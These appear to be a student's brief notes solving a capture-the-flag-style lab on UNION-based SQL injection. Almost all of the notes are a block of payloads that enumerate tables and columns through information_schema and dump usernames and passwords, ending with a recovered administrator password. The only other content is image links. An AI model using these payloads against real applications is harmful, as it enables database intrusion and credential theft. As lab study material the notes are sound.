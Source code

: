 # 05 Lab: SQL injection attack, listing the database contents on non-Oracle databases

```jsx
'+UNION+SELECT+'AAA','BBB'--
'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--
'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_horosf'--
'+UNION+SELECT+username_iuhldq,+password_eazcur+FROM+users_horosf--

administrator
xphxerrutto3jpg7eaw2
```

![Untitled](05%20Lab%20SQL%20injection%20attack,%20listing%20the%20database%20%2017efab5460ec8191b530f6b677cc927e/Untitled.png)

![Untitled](05%20Lab%20SQL%20injection%20attack,%20listing%20the%20database%20%2017efab5460ec8191b530f6b677cc927e/Untitled%201.png)

![Untitled](05%20Lab%20SQL%20injection%20attack,%20listing%20the%20database%20%2017efab5460ec8191b530f6b677cc927e/Untitled%202.png)

![Untitled](05%20Lab%20SQL%20injection%20attack,%20listing%20the%20database%20%2017efab5460ec8191b530f6b677cc927e/Untitled%203.png)

rwrwerw
